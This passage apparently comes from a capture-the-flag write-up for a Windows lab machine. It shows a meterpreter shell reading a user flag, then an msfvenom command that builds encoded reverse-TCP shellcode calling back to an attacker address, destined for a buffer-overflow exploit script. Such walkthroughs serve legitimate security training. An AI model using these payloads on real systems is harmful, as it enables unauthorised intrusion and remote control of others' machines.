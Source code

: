 
##### user.txt

From there, we can grab `user.txt`:

    
    
    meterpreter > shell
    Process 2244 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Users\Alfred\Music>cd ..\Desktop
    
    c:\Users\Alfred\Desktop>dir
    
     Volume in drive C has no label.
     Volume Serial Number is 9034-6528
    
     Directory of c:\Users\Alfred\Desktop
    
    12/10/2017  06:50 PM    <DIR>          .
    12/10/2017  06:50 PM    <DIR>          ..
    12/10/2017  06:50 PM                32 user.txt
                   1 File(s)             32 bytes
                   2 Dir(s)  18,159,497,216 bytes free
    
    c:\Users\Alfred\Desktop>type user.txt
    type user.txt
    72290246...
    

#### alternative method: script + windows shell

To generate shellcode, I’ll use `msfvenon`, editing the example from the
comment in the POC. I decided to start with a Windows CMD shell:

    
    
    root@kali# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.218 LPORT=8081 -e x86/unicode_m
    ixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\
    xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd
    1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\
    xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
    Found 1 compatible encodersi
    Attempting to encode payload with 1 iterations of x86/unicode_mixed
    x86/unicode_mixed succeeded with size 808 (iteration=0)
    x86/unicode_mixed chosen with final size 808
    Payload size: 808 bytes
    Final size of python file: 3872 bytes
    

Insert that into the exploit script, and run it:
